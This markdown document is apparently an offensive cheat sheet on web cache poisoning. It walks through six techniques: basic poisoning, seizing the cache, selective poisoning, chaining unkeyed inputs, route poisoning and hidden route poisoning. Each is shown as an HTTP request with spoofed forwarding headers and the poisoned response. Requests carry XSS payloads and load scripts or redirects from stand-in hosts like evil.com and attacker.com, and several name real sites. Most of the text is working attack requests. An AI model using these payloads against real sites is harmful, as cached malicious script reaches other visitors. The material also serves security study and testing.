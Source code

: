 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
`-`

## How to exploit
1. Basic poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil.com/x.js">
</script>
```

3. Selective poisoning
```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>
```
The response is
```
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

4. Chaining Unkeyed Inputs 
- First step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz
```
The response is
```
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```
- Second step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```
- Third step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil
```
The response is
```
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com
```
The response is
```
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil
```
The response is
```
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io
```
The response is
```
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

##Summary
Intercept request to any page say arbitrary static/normal request > check for reflection/get params/headers/path etc > inject> check your luck

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)
* https://i.blackhat.com/us-18/Thu-August-9/us-18-Kettle-Practical-Web-Cache-Poisoning-Redefining-Unexploitable.pdf
* https://hideandsec.sh/books/web-03c/page/cache-poisoning
* https://galnagli.com/Cache_Poisoning/ [Must check]
